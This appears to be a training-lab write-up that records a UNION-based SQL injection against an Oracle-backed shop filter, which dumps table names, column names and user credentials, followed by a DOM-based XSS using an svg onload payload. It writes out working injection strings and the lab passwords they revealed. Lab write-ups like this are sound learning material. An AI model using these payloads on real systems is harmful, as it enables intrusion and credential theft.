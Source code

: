 - Used `scrot` on Kali Linux (`scrot screenshot.png`) or Snipping Tool on Windows to capture Burp Suite outputs and lab results.

---

## Process and Implementation

### Step 1: SQL Injection Attack

**Lab:** Listing database contents on Oracle.

- Intercepted a GET request (`/filter?category=Accessories`) using Burp Suite Proxy.
- Sent to Repeater and tested SQL injection with:
  ```
  '+UNION+SELECT+'abc','def'+FROM+dual--
  ```
  - Confirmed two text columns in the response.
- Retrieved table names with:
  ```
  '+UNION+SELECT+table_name,NULL+FROM+all_tables--
  ```
  - Identified `USERS_ZTHJPQ` as the credentials table.
- Listed columns with:
  ```
  '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ZTHJPQ'--
  ```
  - Found `EMAIL`, `USERNAME_XNOUTA`, `PASSWORD_FLARRA`.
- Extracted credentials with:
  ```
  '+UNION+SELECT+EMAIL||':'||USERNAME_XNOUTA||':'||PASSWORD_FLARRA,NULL+FROM+USERS_ZTHJPQ--
  ```
  - Output: `administrator:5sn3di4o91e5qay5y9lk, carlos:qhdccf86gear4wsxqaso, wiener:2pd9uvosk1r3su850ac3`
- Logged in as administrator with password `5sn3di4o91e5qay5y9lk` to solve the lab.

**Outcome:** Successfully extracted admin credentials and accessed the system.

---

### Step 2: DOM-Based XSS Attack

**Lab:** DOM-based XSS via document.write sink.

- Entered a random string (`test123`) in the search box, observed `<img src="test123">` in the DOM via browser developer tools.
- Injected payload in the URL:
  ```
  ?search="><svg onload=alert(1)>
  ```
  - Payload broke out of the `src` attribute, triggering `alert(1)` via the `<svg>` tag’s `onload` event.

**Outcome:** Alert executed, confirming XSS vulnerability and solving the lab.

---
